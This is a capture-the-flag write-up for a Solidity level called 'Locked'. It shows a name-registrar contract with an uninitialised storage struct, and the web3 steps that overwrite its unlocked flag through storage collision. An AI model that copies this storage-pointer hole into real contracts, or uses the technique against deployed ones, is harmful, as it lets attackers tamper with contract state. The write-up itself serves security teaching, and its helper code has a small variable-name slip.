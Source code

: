 # Locked
_difficulty 6/10_

This name registrar is locked and will not accept any new names to be registered.  


Unlock this registrar to beat the level.  


Things that might help:  
- Understanding how storage works
- Understanding default storage types for local variables
- Understanding the difference between storage and memory

## Sources
```javascript
pragma solidity ^0.4.23; 

// A Locked Name Registrar
contract Locked {

    bool public unlocked = false;  // registrar locked, no name updates
    
    struct NameRecord { // map hashes to addresses
        bytes32 name; // 
        address mappedAddress;
    }

    mapping(address => NameRecord) public registeredNameRecord; // records who registered names 
    mapping(bytes32 => address) public resolve; // resolves hashes to addresses
    
    function register(bytes32 _name, address _mappedAddress) public {
        // set up the new NameRecord
        NameRecord newRecord;
        newRecord.name = _name;
        newRecord.mappedAddress = _mappedAddress; 

        resolve[_name] = _mappedAddress;
        registeredNameRecord[msg.sender] = newRecord; 

        require(unlocked); // only allow registrations if contract is unlocked
    }
}
```

## Level author  
Adrian Manning  
age@agemanning.com  
https://github.com/AgeManning  

## Solution

1. Let's check what's stored in the storage of the contract
```javascript
let lockedData = [];
let lockedDataCb = (index) => (error, contractData) => {
  data[index] = contractData
}
for(var i = 0; i < 2; i++){
  web3.eth.getStorageAt(contract.address, i, lockedDataCb(i))
}
```

```
data:
0:"0x0000000000000000000000000000000000000000000000000000000000000000"
1:"0x0000000000000000000000000000000000000000000000000000000000000000"
```

The storage in the location 0 is `0x0` or false - the contract is locked.

2. Check if the contract returns unlocked as false.  
`await contract.unlocked()`  
false  

3. The contract uses `storage` memory for the `NameRecord` struct in the `register(bytes32 _name, address _mappedAddress)`. This will force the struct in the storage memory and overwrite the local data.

`await contract.register('0x0000000000000000000000000000000000000000000000000000000000000001', player)`

4. Let's see what's recorded in the storage now.
```javascript
for(var i = 0; i < 2; i++){
  web3.eth.getStorageAt(contract.address, i, lockedDataCb(i))
}
```
```
data:
0: "0x0000000000000000000000000000000000000000000000000000000000000001"
1: "0x000000000000000000000000fdfc2d2c2b580809f8668b117da374d99fab64a8"
```

5. Contract should be unlocked now.  
`await contract.unlocked()`  
true  

6. Submit instance 🎉   

## Lesson

Care should be taken when using complex data types within functions. Incorrectly initialised storage variables can lead to modification of other storage variables as this level demonstrates.
